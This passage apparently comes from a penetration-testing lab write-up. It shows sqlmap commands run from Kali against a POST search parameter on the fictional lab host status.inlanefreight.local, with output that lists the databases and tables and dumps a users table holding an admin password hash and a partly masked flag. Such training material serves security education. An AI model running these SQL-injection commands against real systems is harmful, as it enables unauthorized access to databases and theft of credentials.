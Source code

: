 ```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch --dbms=mysql --dbs

[SNIP]

[08:53:28] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
[*] sys
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch --dbms=mysql -D status --tables

[SNIP]

[08:54:01] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch --dbms=mysql --dump --no-cast -D status -T users --threads=10

[SNIP]

Database: status
Table: users
[2 entries]
+----+--------------------------------------+----------+
| id | password                             | username |
+----+--------------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6    | Admin    |
| 2  | 1fbea**************************** 📌 | Flag     |
+----+--------------------------------------+----------+
```

#### `support.inlanefreight.local`
